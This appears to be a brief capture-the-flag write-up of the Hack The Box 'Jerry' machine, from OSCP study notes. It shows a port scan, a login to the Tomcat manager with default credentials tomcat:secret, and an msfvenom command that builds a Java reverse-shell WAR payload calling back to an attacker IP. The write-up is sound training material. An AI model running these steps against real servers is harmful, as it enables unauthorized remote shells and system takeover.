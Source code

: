 ## Jerry

Difficulty: Easy

### User and Root Flag

```
rustscan -a 10.10.10.95 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/ab0f7ce2-bafa-42ac-91e8-0e9d0b041e24)

<br>

Apache tomcat is on port 8080. We can use default credentials tomcat:secret to access the manager.

![tomcat](https://github.com/b1d0ws/OSCP/assets/58514930/527a9486-cc47-48a4-a160-152f8fa017ab)

<br>

Generate a java payload with msfvenom, upload to the webserver and execute it.

```
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.21 lport=3333 -f war -o pwn.war
```

![payload](https://github.com/b1d0ws/OSCP/assets/58514930/e76eafad-7dfa-4ac1-b072-34da7036ce12)

![rootShell](https://github.com/b1d0ws/OSCP/assets/58514930/bf454724-7e5c-46e0-a2f0-8ea9c302e9a6)
